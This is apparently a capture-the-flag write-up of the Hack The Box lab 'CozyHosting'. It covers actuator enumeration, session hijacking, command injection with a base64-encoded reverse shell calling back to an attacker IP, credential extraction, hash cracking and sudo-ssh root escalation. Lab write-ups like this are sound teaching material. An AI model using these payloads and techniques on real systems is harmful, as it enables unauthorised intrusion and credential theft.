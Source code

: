 ```yaml
---
layout: post_1
title: "CozyHosting - HTB"
date: 2024-03-02
---
```


# HTB CozyHosting Write Up
![HTB CozyHosting](/assets/2024-03-02-writeups-cozyhosting-htb/machine_info.png "HTB CozyHosting")


## Introduction
Cozy Hosting is a cloud server provider company, which offer multiple management tools.

## Network Scan

<details>
<summary><b>Nmap scan result</b></summary>

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4356bca7f2ec46ddc10f83304c2caaa8 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEpNwlByWMKMm7ZgDWRW+WZ9uHc/0Ehct692T5VBBGaWhA71L+yFgM/SqhtUoy0bO8otHbpy3bPBFtmjqQPsbC8=
|   256 6f7a6c3fa68de27595d47b71ac4f7e42 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHVzF8iMVIHgp9xMX9qxvbaoXVg1xkGLo61jXuUAYq5q
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

</details>

## Investigation
First, when we look at the port scan result we can see a usual web server infrastructure that exposes SSH to further management.  
It is using nginx as a reverse proxy and redirect http requests to http://cozyhosting.htb.  
![CozyHosting website](/assets/2024-03-02-writeups-cozyhosting-htb/cozyhosting_website.png "CozyHosting website")

The main website contains a login page that doesn't allow registration. We perform some basic SQLi tests but none of them worked/crashed.  
![Login Page](/assets/2024-03-02-writeups-cozyhosting-htb/login_page.png "Login Page")

Reverse proxy technologies can forward the request to another server that is running on localhost only.
Sometimes the backend server can return this information on the HTTP Header, which wasn't this case.  
Another way to perform this test is to access an error page, the 404 can be a specially crafted for a better UX than the default nginx error.  
We got the following message  
![Whitelabel Error](/assets/2024-03-02-writeups-cozyhosting-htb/whitelabel_error.png "Whitelabal Error")

This doesn't tell which server is in place, but we can search for the error and found out where it came from.  
A lot of results pointed it out to the [Spring Boot Framework][java-spring-boot].  
Now we know what we are dealing with, we can perform enumeration targeting the framework only.  
A [Hacktricks guide on Spring Actuators][spring-actuators] set us in the right direction.
First we launch a directory scan using a [spring-boot.txt list from SecLists][spring-seclists].
```
$ ffuf -w ~/tools/lists/spring-boot.txt:FUZZ -u http://cozyhosting.htb/FUZZ -H 'Host: cozyhosting.htb'

... SNIP ...

actuator                [Status: 200, Size: 634, Words: 1, Lines: 1]
actuator/env/home       [Status: 200, Size: 487, Words: 13, Lines: 1]
actuator/env            [Status: 200, Size: 4957, Words: 120, Lines: 1]
actuator/env/lang       [Status: 200, Size: 487, Words: 13, Lines: 1]
actuator/env/path       [Status: 200, Size: 487, Words: 13, Lines: 1]
actuator/mappings       [Status: 200, Size: 9938, Words: 108, Lines: 1]
actuator/health         [Status: 200, Size: 15, Words: 1, Lines: 1]
actuator/sessions       [Status: 200, Size: 145, Words: 1, Lines: 1]
actuator/beans          [Status: 200, Size: 127224, Words: 542, Lines: 1]
```

In the `actuator/sessions` we can get a session token for the user `kanderson`.
![Kanderson Session](/assets/2024-03-02-writeups-cozyhosting-htb/kanderson_session.png "Kanderson Session")
Using this token we can login into the cozyhosting.htb website.

The admin dashboard
![Admin dashboard](/assets/2024-03-02-writeups-cozyhosting-htb/admin_dashboard.png "Admin bashboard")

Exploring the dashboard for more information but none was found.

There is a service that enable us to include a host into the automatic patch list.
Now we will the service using placeholder values.
```
$ curl -vv -X POST http://cozyhosting.htb/executessh -H 'Cookie: JSESSIONID=60624E501F34D4469CFBE1CD53AF3273' --data 'username=user&host=host'
... SNIP ...
< HTTP/1.1 302 
< Server: nginx/1.18.0 (Ubuntu)
< Content-Length: 0
< Location: http://cozyhosting.htb/admin?error=ssh: Could not resolve hostname host: Temporary failure in name resolution
... SNIP ...

```

Then, test for command injection
```
$ curl -vv -X POST http://cozyhosting.htb/executessh -H 'Cookie: JSESSIONID=60624E501F34D4469CFBE1CD53AF3273' --data 'username=;user&host=host'
... SNIP ...
< Location: http://cozyhosting.htb/admin?error=usage: ssh [-46AaCfGgKkMNnqsTtVvXxYy] [-B bind_interface]           [-b bind_address] [-c cipher_spec] [-D [bind_address:]port]           [-E log_file] [-e escape_char] [-F configfile] [-I pkcs11]           [-i identity_file] [-J [user@]host[:port]] [-L address]           [-l login_name] [-m mac_spec] [-O ctl_cmd] [-o option] [-p port]           [-Q query_option] [-R address] [-S ctl_path] [-W host:port]           [-w local_tun[:remote_tun]] destination [command [argument ...]]/bin/bash: line 1: user@host: command not found
... SNIP ...
```

At this moment we know that the server is executing the ssh command which has a basic syntax of `ssh USERNAME@HOSTNAME`.
We can build a reverse shell command.
In the following tests we found that there are a whitespace filter on username.  
To bypass the filter we can use ${IFS} instead of spaced and execute our reverse shell.  
```
$ curl -vv -X POST http://cozyhosting.htb/executessh -H 'Cookie: JSESSIONID=60624E501F34D4469CFBE1CD53AF3273' --data 'username=;echo${IFS}YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC4xMTEvNTU1NSAwPiYxCg==${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash;&host=host'

```

### User app
The shell was execute as the user `app` on /app dir
```
uid=1001(app) gid=1001(app) groups=1001(app)
```

Users with shell:
```
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
app:x:1001:1001::/home/app:/bin/sh
josh:x:1003:1003::/home/josh:/usr/bin/bash

```

The cozyhosting app is /app/cloudhosting-0.0.1.jar
Check running processes to see if any variable was passed as parameter
```
$ ps aux
... SNIP ...
/usr/bin/java -jar cloudhosting-0.0.1.jar
... SNIP ...

```

We can decompile it with jadx and search for password. We found two hardcoded passwords, one for kanderson and another for postgresql.
```
kanderson:
    username=kanderson&password=MRdEQuv6~6P9

postgres:
    spring.datasource.username=postgres
    spring.datasource.password=Vg&nvzAQ7XxR
```

Both of these passwords aren't reused.

In the postgresql database, we can search for more password hashes and test again for password reuse.
```
postgres=# \l
                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges   
-------------+----------+----------+-------------+-------------+-----------------------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
(4 rows)

```

Dumping users on cozyhosting
```
postgres=# \c cozyhosting
... SNIP ...
cozyhosting=# \dt
         List of relations
 Schema | Name  | Type  |  Owner   
--------+-------+-------+----------
 public | hosts | table | postgres
 public | users | table | postgres
(2 rows)
cozyhosting=# select * from users;
   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)

```

The admin hash was cracked with hashcat
```
$ hashcat -a 0 -m 3200 admin.hash ~/Downloads/rockyou.txt
... SNIP ...
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited
... SNIP ...

```

The password was reused for user `josh`.

### User josh
```
uid=1003(josh) gid=1003(josh) groups=1003(josh)
```

Checking for sudo commands:
```
$ sudo -l
... SNIP ...
User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *

```

We can use the [GTFOBins SSH guide][gtfobins-ssh] to gain root access
```
$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# id
uid=0(root) gid=0(root) groups=0(root)

```

[java-spring-boot]: <https://spring.io/projects/spring-boot> "Spring Boot"
[spring-actuators]: <https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/spring-actuators> "Spring Actuators"
[spring-seclists]: <https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt> "SecLists Spring"
[gtfobins-ssh]: <https://gtfobins.github.io/gtfobins/ssh/> "gtfobins-ssh"
